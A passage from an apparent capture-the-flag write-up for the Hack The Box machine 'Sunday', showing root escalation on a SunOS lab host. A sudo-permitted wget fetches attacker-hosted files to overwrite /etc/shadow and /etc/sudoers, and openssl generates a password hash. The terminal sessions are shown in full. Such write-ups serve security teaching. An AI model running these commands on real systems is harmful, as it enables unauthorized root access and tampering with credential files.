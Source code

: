     02:00:10 (42.45 MB/s) - `/etc/shadow' saved [392/392]
    
    sammy@sunday:~$ su -
    Password:
    Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
    You have new mail.
    root@sunday:~# id
    uid=0(root) gid=0(root) groups=0(root),1(other),2(bin),3(sys),4(adm),5(uucp),6(mail),7(tty),8(lp),9(nuucp),12(daemon)
    

If I had wanted to give root a different password, and not just copy from sunny or sammy, I could use openssl:

    root@kali:~/hackthebox/sunday-10.10.10.76# openssl passwd -1 -salt 0xdf password
    $1$0xdf$fKKvgEPPSu1HMdNI3w5i50
    

Then put that into shadow:

    root@kali:~/hackthebox/sunday-10.10.10.76# head -1 shadow
    root:$1$0xdf$fKKvgEPPSu1HMdNI3w5i50:17636::::::
    

And now I can with the password “password”.`su`

#### Overwrite sudoers

The file defines who can run sudo on which applications. We can estimate that, without comments, the unmodified file on Sunday looks something like:`/etc/sudoers`

    root  ALL=(ALL) ALL
    sammy ALL=(root) NOPASSWD: /usr/bin/wget
    sunny ALL=(root) NOPASSWD: /root/troll
    

Let’s change that slightly in a copy on our local host, giving sammy the ability to run without password:`su`

    root  ALL=(ALL) ALL
    sammy ALL=(root) NOPASSWD: /usr/bin/su
    sunny ALL=(root) NOPASSWD: /root/troll
    

Now, use wget to overwrite the file on Sunday, and then it is easy to get a root shell:

    sammy@sunday:~$ sudo wget -O /etc/sudoers http://10.10.14.5/sudoers
    --02:07:08--  http://10.10.14.5/sudoers
               => `/etc/sudoers'
    Connecting to 10.10.14.5:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 99 [application/octet-stream]
    
    100%[==========================================================================================================================================================================================================>] 99            --.--K/s
    
    02:07:08 (15.45 MB/s) - `/etc/sudoers' saved [99/99]
    
    sammy@sunday:~$ sudo -l
    User sammy may run the following commands on this host:
        (root) NOPASSWD: /usr/bin/su
    sammy@sunday:~$ sudo su
    root@sunday:~# id
    uid=0(root) gid=0(root)
    